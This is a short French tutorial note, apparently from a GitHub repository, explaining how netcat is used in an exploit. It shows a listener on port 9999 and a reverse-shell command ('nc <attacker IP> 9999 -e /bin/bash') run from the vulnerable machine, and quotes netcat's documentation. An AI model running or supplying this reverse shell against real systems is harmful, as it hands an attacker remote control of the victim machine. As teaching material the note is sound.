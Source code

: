 ## netcat

[https://nc110.sourceforge.io/](https://nc110.sourceforge.io/)

![OSI TCP IP](doc/osi-tcpip.png?raw=true)

Objectif de l'exploit : ouvrir sur notre machine le port TCP 9999

![netcat](doc/netcat.drawio.png?raw=true)

```
nc -lp 9999
```
Etablir une connexion depuis la machine vulnérable, vers notre machine
```
nc <<attacker IP>> 9999 -e /bin/bash
```
"In the simplest usage, "nc host port" creates a TCP connection to the given
port on the given target host.  Your standard input is then sent to the host,
and anything that comes back across the connection is sent to your standard
output.  This continues indefinitely, until the network side of the connection
shuts down"
